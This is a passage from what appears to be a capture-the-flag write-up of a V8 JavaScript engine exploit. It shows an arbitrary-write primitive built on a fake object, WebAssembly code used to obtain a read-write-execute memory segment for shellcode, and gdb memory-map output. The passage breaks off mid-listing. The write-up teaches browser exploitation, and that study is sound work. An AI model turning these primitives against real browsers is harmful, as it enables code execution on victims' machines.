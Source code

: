 To do an arbitrary write, I’ll do the same thing, setting the fake object’s
elements array address and then setting the 0 element (as opposed to reading
it):

    
    
    function arbwrite(addr, val) {
        if (addr % 2n == 0) {
            addr += 1;
        }
        arr2[1] = itof((2n << 32n) + addr - 8n);
        fake[0] = itof(BigInt(val));
    }
    

### v8 Exploit

With the primitives I need in place, generate the exploit, continuing along in
[Faith’s oob-v8 writeup](https://faraz.faith/2019-12-13-starctf-
oob-v8-indepth/) with the WebAssembly Technique.

#### Create RWX Segment

I’m planning to write some shellcode to memory and then execute it. In order
to do this, I’ll need a RWX memory segment, and WebAssembly is a way to do
that. I’ll yank the code right from Faith’s post:

    
    
    // https://wasdk.github.io/WasmFiddle/
    var wasm_code = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    var wasm_mod = new WebAssembly.Module(wasm_code);
    var wasm_instance = new WebAssembly.Instance(wasm_mod);
    var f = wasm_instance.exports.main;
    

Checking the fiddle page in the comment, I can see that this code is just the
web assembly for:

    
    
    int main() { 
      return 42;
    }
    

#### Find Segment

I’ll need a way to find the start of the the segment. I’ll start by re-running
the the new wasm lines added to `exploit.js`, and then I’ll drop to `gdb` and
run the GEF command `vmmap` to list all the segments:

    
    
    gef➤  vmmap
    [ Legend:  Code | Heap | Stack ]
    Start              End                Offset             Perm Path                                 
    0x00000bed00000000 0x00000bed0000c000 0x0000000000000000 rw-
    0x00000bed0000c000 0x00000bed00040000 0x0000000000000000 ---
    0x00000bed00040000 0x00000bed00041000 0x0000000000000000 rw-
    0x00000bed00041000 0x00000bed00042000 0x0000000000000000 ---
    0x00000bed00042000 0x00000bed00052000 0x0000000000000000 r-x
    0x00000bed00052000 0x00000bed0007f000 0x0000000000000000 --- 
    0x00000bed0007f000 0x00000bed00080000 0x0000000000000000 ---
    0x00000bed00080000 0x00000bed00081000 0x0000000000000000 rw-
    0x00000bed00081000 0x00000bed00082000 0x0000000000000000 ---
    0x00000bed00082000 0x00000bed000bf000 0x0000000000000000 r-x
    0x00000bed000bf000 0x00000bed08040000 0x0000000000000000 ---
    0x00000bed08040000 0x00000bed0805d000 0x0000000000000000 r--